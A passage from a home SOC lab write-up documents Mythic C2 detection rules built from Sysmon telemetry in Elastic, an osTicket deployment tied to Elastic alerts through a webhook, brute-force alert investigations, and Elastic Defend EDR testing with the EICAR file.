- **Sysmon Telemetry Analysis** — Investigated Event IDs 3, 7, and 11, correlated available process and file attributes, and adapted detection logic when Mythic-specific Event ID 1 telemetry was unavailable.
- **KQL Detection & Investigation** — Developed KQL queries for Mythic payload activity, suspicious process execution, outbound network connections, and Windows Defender activity.
- **Security Dashboard Development** — Built a three-panel Elastic dashboard covering suspicious process execution, process-initiated network connections, and Microsoft Defender disabled activity.
- **Threat Hunting & Triage** — Searched 30 days of historical telemetry, reconstructed the Mythic activity timeline, validated event availability, and adjusted the detection strategy based on observed telemetry.
- **Threat Intelligence** — Used SHA1 hash data from Sysmon process telemetry for VirusTotal-based OSINT investigation.

### Tools
- **Elastic/Kibana** — Used Discover, Detection Rules, KQL, and Dashboards for telemetry investigation and detection development.
- **Sysmon** — Provided Windows process, network, image-load, and file-creation telemetry used for detection and investigation.
- **Mythic C2** — Generated the adversary activity used to validate Mythic-focused detection logic.
- **VirusTotal** — Used for SHA1 hash-based OSINT and reputation investigation.

### Steps



## Step 1: Mythic C2 Detection Engineering
Analyzed 30 days of Sysmon telemetry in Elastic Discover to identify and correlate activity generated by the Mythic payload.

- Investigated File Create (Event ID 11), Image Load (Event ID 7), and Network Connection (Event ID 3) telemetry.
- Used payload file attributes, process information, file paths, and Process GUID values for event correlation.
- Investigated the absence of Mythic-specific Process Create (Event ID 1) telemetry and adapted the detection strategy to the available events.
- Created and enabled the `DFIR-Mythic-C2-Agent-Detected` custom query rule with Critical severity, a 5-minute execution interval, and a 5-minute look-back window.

## Step 2: Suspicious Activity Dashboard
Created the `DFIR Dashboard - Suspicious Activity` dashboard to provide visibility into key Windows security telemetry.

- **Process Execution** — Sysmon Event ID 1 for PowerShell, Command Prompt, and Rundll32 activity.
- **Network Connections** — Sysmon Event ID 3 for outbound process-initiated connections.
- **Defender Activity** — Windows Defender Event ID 5001 for Defender protection being disabled.

The dashboard uses validated KQL queries and available event fields to support ongoing security monitoring and investigation.

### Challenges & Troubleshooting
During Mythic C2 detection development, Sysmon Event ID 1 Process Create telemetry for the generated Mythic payload was not visible in Elastic, while other telemetry such as Event ID 3, Event ID 7, and Event ID 11 was successfully collected. Investigation confirmed the issue was not caused by Elastic ingestion failure, and detection development continued using available telemetry through event correlation.

Further validation confirmed Event ID 1 was functioning for general process activity within the environment. The Mythic detection rule was therefore built using available file, image loading, and network telemetry, while Event ID 1 was used separately for suspicious process monitoring through the dashboard.

### Summary
- **Investigation Findings:** Mythic C2 activity generated multiple security-relevant telemetry sources, including file creation, image loading, and network communication events that could be correlated for detection.
- **Decision Made:** Adapted the Mythic detection logic to the available telemetry rather than depending on missing payload-specific Process Create events.
- **Outcome:** Created the `DFIR-Mythic-C2-Agent-Detected` detection rule and `DFIR Dashboard - Suspicious Activity`, providing visibility into suspicious process execution, outbound network communication, and Windows Defender activity.

### Operational Impact
Provides repeatable detection logic and dashboard visibility for investigating suspicious endpoint execution, outbound network activity, and defense-evasion events.

---


# PART 17 — osTicket Ticketing System Deployment

## Objective
Deploy an on-prem osTicket ticketing platform to support future SOC alert-to-ticket automation workflows.

## Skills
- **Application Deployment** — Deployed and configured osTicket on an on-premises Windows Server using XAMPP, including PHP requirements, configuration, database setup, and installation validation.
- **Windows Server Administration** — Managed the osTicket server through RDP, XAMPP service configuration, local web/database services, file permissions, and troubleshooting.
- **Web & Database Administration** — Configured Apache, MariaDB, phpMyAdmin, localhost service access, database privileges, and osTicket database connectivity.
- **Access Control & File Permissions** — Hardened the osTicket configuration file permissions using PowerShell and `icacls` after installation.
- **Infrastructure Troubleshooting** — Diagnosed XAMPP download issues, resolved MariaDB system-table corruption, corrected osTicket configuration issues, and restored service functionality.
- **Ticketing Workflow Preparation** — Deployed and validated separate osTicket client and staff portals as the foundation for subsequent SOC alert-to-ticket integration.

## Tools
- **VirtualBox** — Hosted the on-premises Windows Server lab environment using NAT and Host-Only networking.
- **Windows Server 2022** — Hosted the XAMPP and osTicket services.
- **XAMPP** — Provided the Apache, MariaDB, and PHP stack required by osTicket.
- **osTicket** — Provided the ticket-management and staff/client portal functionality.
- **phpMyAdmin** — Used to create and manage the osTicket database.
- **PowerShell / icacls** — Used to configure osTicket file permissions.

## Steps

### 1. XAMPP & osTicket Deployment
Deployed osTicket on an on-premises Windows Server 2022 VM using XAMPP, with Apache, MariaDB, and PHP providing the application stack.



Configured the XAMPP services and verified Apache and MariaDB were operational before continuing with the osTicket installation.

### 2. osTicket Installation & Database Configuration
Configured osTicket within the XAMPP web root, corrected the required configuration file, created the osTicket database, and completed the web-based installation.



Completed the installation and validated database connectivity and application initialization.

### 3. Client Portal Validation
Validated access to the osTicket client portal from the lab environment.



### 4. Staff Portal Validation
Validated staff/agent authentication and access to the osTicket ticket-management interface.



### 5. Administrative Validation
Confirmed administrative access and verified the osTicket administration interface was functional.



## Challenges & Troubleshooting
- XAMPP installation was blocked by download security verification inside the Windows Server VM. The issue was resolved by accessing the Windows Server VM through RDP from the host machine and downloading the installer directly within the VM.

- XAMPP MariaDB failed due to corruption in the `mysql.db` system table. Restored the MySQL system database from the XAMPP backup directory, recovered MariaDB functionality, and completed the osTicket deployment.

## Summary
- **Investigation Findings:** Deployed and configured an on-premises osTicket ticketing platform within the VirtualBox SOC lab environment using XAMPP, Apache, MariaDB, and PHP.
- **Decision Made:** Used a local Windows Server deployment to maintain a controlled ticket-management environment within the SOC lab.
- **Outcome:** Successfully deployed osTicket, configured its database and access controls, and validated client, staff, and administrative access.

## Impact
Provides a functional ticket-management platform that can support future SOC alert-to-ticket integration, assignment, and incident tracking.

---


## PART 18 — osTicket Elastic Integration

### Objective
Integrate osTicket with Elastic to enable automated security alert ticket creation and incident tracking.

### Skills
- **SIEM-to-Ticketing Integration** — Integrated Elastic alerting with osTicket through an HTTP webhook to support automated security alert ticket creation.
- **API Integration** — Configured osTicket API access, authentication headers, and the ticket-creation endpoint for Elastic integration.
- **Webhook Configuration & Troubleshooting** — Built and tested the Elastic webhook connector, diagnosed connection timeouts, and corrected the on-premises network configuration and firewall rules.
- **Network Troubleshooting** — Diagnosed ELK-to-osTicket connectivity using private Host-Only networking, ICMP testing, HTTP connectivity, and Windows Firewall configuration.
- **Security Alert Management Workflow** — Validated end-to-end alert-to-ticket creation by generating a test Elastic alert and confirming the resulting ticket in the osTicket agent panel.

### Tools
- **Elastic Stack** — Created and tested the webhook connector used to send security alerts to osTicket.
- **osTicket** — Configured the API endpoint and API-key authentication for automated ticket creation.
- **Windows Server** — Hosted osTicket and provided the network and firewall configuration required for Elastic connectivity.
- **Ubuntu Server** — Hosted the ELK stack and generated the webhook requests to osTicket.

### Steps

## 1. osTicket API Configuration
Configured osTicket API access through: `Admin Panel → Manage → API`
Created an API key and enabled the **Can Create Tickets** permission for Elastic integration.



## 2. Elastic Webhook Configuration
Enabled the Elastic 30-day trial license to access API-based connectors.
Created an `osTicket` webhook connector and configured:

- **Method:** POST
- **URL:** osTicket API ticket-creation endpoint
- **Authentication:** None
- **HTTP Header:** `X-API-Key`
- **Value:** osTicket API key
- **Request Body:** XML payload based on the osTicket API ticket-creation format

## 3. On-Premises Network Troubleshooting
Initial webhook testing failed with a connection timeout between the ELK and osTicket servers.

- Verified the ELK server's private Host-Only IP.
- Corrected the osTicket server's internal network configuration.
- Changed the Windows Host-Only adapter profile from Public to Private.
- Allowed ICMP traffic for connectivity testing.
- Allowed inbound HTTP traffic on port 80.
- Re-tested ELK-to-osTicket connectivity successfully.

## 4. Webhook & Ticket Validation
Reran the Elastic webhook test after correcting the network configuration.



Confirmed successful webhook communication and verified the generated ticket in the osTicket agent panel.



### Challenges & Troubleshooting
- Elastic webhook testing initially failed due to a connection timeout between the ELK server and osTicket server.
- The issue was traced to on-premises network communication problems, including incorrect internal IP configuration and Windows Firewall restrictions. Resolved by correcting the osTicket network adapter configuration, changing the Host-Only adapter profile to Private, and allowing ICMP and required inbound HTTP traffic for successful Elastic-to-osTicket communication.

### Summary
- **Investigation Findings:** Validated Elastic-to-osTicket communication through an API-based webhook integration and confirmed successful ticket creation from a test alert.
- **Decision Made:** Used the VirtualBox Host-Only network for internal Elastic-to-osTicket communication within the on-premises SOC environment.
- **Outcome:** Successfully integrated osTicket with Elastic and verified automated ticket creation and tracking through the osTicket agent panel.

### Operational Impact
Provides a validated alert-to-ticket workflow for tracking security alerts, maintaining accountability, and recording incident-related activity within the SOC environment.

---


# PART 19 — Investigation Methodology

## Objective
Investigate security alerts in Elastic SIEM by analyzing authentication activity and hunting for suspicious command-and-control (C2) behavior through endpoint and network telemetry correlation, supporting attack-scope assessment and SOC investigation decisions.

## Skills
- **Security Alert Triage & Investigation** — Investigated SSH and RDP brute-force alerts by reviewing authentication failures, source IPs, targeted accounts, event volume, timeframes, and successful authentication activity.
- **Threat Hunting & Scope Analysis** — Used Elastic Timeline and Kibana Discover to correlate authentication and endpoint activity, identify targeted accounts, reconstruct activity timelines, and investigate potential C2 behavior.
- **KQL Log Analysis** — Used Kibana queries to investigate source IP activity, targeted users, authentication results, executable activity, and related telemetry.
- **C2 Investigation & Endpoint Correlation** — Investigated potential Mythic C2 activity by pivoting from network connections to process and file telemetry and correlating events using Sysmon `ProcessGuid`.
- **Network Security Analysis** — Analyzed Sysmon Event ID 3 network connections, source/destination IPs, destination ports, and process context to identify potential C2 communication.
- **Threat Intelligence** — Checked authentication source IPs using AbuseIPDB and GreyNoise to assess known malicious activity.
- **SIEM-to-Ticketing Workflow** — Configured Elastic detection rules to automatically create osTicket tickets and included investigation details and direct Kibana alert access.
- **Authentication Attack Analysis** — Determined whether SSH and RDP brute-force activity resulted in successful authentication and identified when post-login investigation was required.

## Tools
- **Elastic Security & Kibana** — Used Alerts, Discover, Timeline, and detection rules for authentication investigation, threat hunting, and event correlation.
- **Sysmon** — Used Event IDs 1, 3, 10, 11, and 29 to investigate process execution, network connections, process access, file creation, and executable activity.
- **AbuseIPDB & GreyNoise** — Used for source IP reputation and malicious-activity assessment.
- **osTicket** — Used to automatically create and track investigation tickets from Elastic detection alerts.

## Steps



### 1. SSH Brute-Force Investigation
- Investigated the SSH Brute Force alert using Elastic Security, Timeline, and Kibana Discover.
- Reviewed failed authentications, source IP, event volume, timeframe, and targeted accounts.
- Checked source IP reputation using AbuseIPDB and GreyNoise.
- Identified two targeted users: `WIN-UM9U5NRA469$` and `Administrator`.
- Confirmed no successful SSH authentication and documented the alert for closure.

### 2. RDP Brute-Force Investigation
- Investigated the RDP Brute Force alert and reviewed source IP and targeted accounts.
- Confirmed the source targeted only `Administrator`.
- Identified a successful authentication at `Jul 13, 2026 @ 09:32:34`.
- Flagged the successful authentication for post-login investigation.

### 3. Mythic C2 Investigation
- Searched 30 days of Elastic telemetry for the known Mythic agent executable and reconstructed activity chronologically.
- Investigated outbound Sysmon Event ID 3 connections and pivoted using destination IP, process information, and `ProcessGuid`.
- Correlated Sysmon Events 11, 29, 1, 10, and 3 to investigate payload creation, executable activity, process execution, process access, and C2 communication.
- Used endpoint and network telemetry together to identify indicators of potential C2 activity and understand telemetry limitations.

### 4. Alert-to-Ticket Automation
- Added an osTicket webhook action to the SSH Brute Force detection rule.
- Configured ticket creation for each alert with the rule name and investigation details.
- Triggered the detection and verified the resulting ticket in osTicket.
- Configured Kibana's `server.publicBaseUrl` to provide direct alert access from the ticket.

### 5. SOC Investigation Workflow
- Documented investigation findings and defined the workflow for analyst assignment, resolution, and ticket closure.

## Challenges & Troubleshooting
- The lab was deployed on-premises, so private IP addresses limited external IP reputation and GeoIP enrichment.
- osTicket alert automation was not fully captured during the investigation phase, so evidence was collected directly from Elastic telemetry.

## Summary
- **Investigation Findings:** Investigated SSH and RDP brute-force alerts, identified targeted accounts, assessed source IP reputation, and determined whether successful authentication occurred. Developed a Mythic C2 investigation methodology using endpoint and network telemetry correlation.
- **Decision Made:** Used Elastic Timeline and Kibana Discover to correlate authentication activity, assess attack scope, and investigate potential C2 behavior through process, file, and network telemetry.
- **Outcome:** Confirmed no successful SSH authentication and identified a successful RDP authentication requiring post-login investigation. Validated automated osTicket ticket creation from the Elastic detection rule.

## Operational Impact
Provides a repeatable SOC workflow for investigating authentication attacks, hunting for potential C2 activity, documenting findings, and routing detected alerts into a ticket-management process.

---


# Part 20 — Elastic Defend EDR Deployment & Malware Prevention

## Objective
Deploy Elastic Defend EDR on a Windows Server endpoint and validate endpoint protection through malware detection, telemetry collection, and response actions.

## Skills
- **Endpoint Detection & Response (EDR) Deployment** — Deployed Elastic Defend through Elastic Fleet using the Complete EDR protection level on the Windows Server endpoint.
- **Malware Detection & Prevention** — Validated Elastic Defend by using the EICAR test file and confirming detection and successful quarantine before execution.
- **Security Alert Triage** — Investigated the Malware Prevention Alert and reviewed process executable, file path, SHA256 hash, host, and user information.
- **Endpoint Telemetry Analysis** — Used Elastic Discover to locate and analyze `malicious_file` telemetry, including the EICAR file path and quarantine result.
- **Security Response Workflow** — Validated the detection-to-quarantine workflow and reviewed available endpoint response capabilities in Elastic Security.

## Tools
- **Elastic Security** — Used Discover, Security Alerts, and endpoint management to investigate Elastic Defend telemetry and malware prevention alerts.
- **Elastic Defend** — Deployed as the EDR solution for endpoint telemetry, malware detection, prevention, and quarantine.
- **Elastic Fleet** — Used to centrally deploy and manage the Elastic Defend integration through the existing Windows Server Elastic Agent policy.
- **Windows Server 2022** — Protected endpoint used to generate EDR telemetry and validate malware prevention.
- **EICAR Test File** — Used as a safe malware simulation to validate Elastic Defend detection and quarantine.

## Steps

### Elastic Defend Integration Deployment


Configured the Elastic Defend integration using the Complete EDR protection level for a Traditional Endpoint and deployed it to the existing Windows Server Elastic Agent policy through Fleet.

### Endpoint Verification


Verified that the Windows Server endpoint was successfully enrolled and actively reporting Elastic Defend telemetry in Elastic Security.

### Malware Prevention Validation


Executed an EICAR antivirus test file to validate Elastic Defend protection. The endpoint generated a Malware Prevention Alert and automatically quarantined the file.

### Endpoint Telemetry Investigation


Investigated the generated telemetry in Kibana Discover and reviewed file name, file path, SHA256 hash, event type, and quarantine status.

### Alert Investigation
Navigated to Security → Alerts and reviewed the Malware Prevention Alert details, including the process executable, file path, file hash, host information, and user information.

### Response Capability Review


Reviewed the available endpoint response capabilities and documented host isolation as a trial feature that was not tested during this phase.

## Challenges & Troubleshooting
For malware prevention validation, I used the EICAR test file to safely verify Elastic Defend detection and response capabilities.

## Summary
- **Investigation Findings:** Elastic Defend detected the EICAR test file, generated a Malware Prevention Alert, collected endpoint telemetry, and successfully quarantined the file.
- **Decision Made:** Used the EICAR test file to safely validate EDR detection and malware prevention capabilities.
- **Outcome:** Successfully deployed Elastic Defend EDR and confirmed endpoint protection, telemetry visibility, malware detection, and quarantine functionality.

## Operational Impact
Provides SOC analysts with endpoint telemetry and automated malware detection and quarantine capabilities to support endpoint investigation and security response.

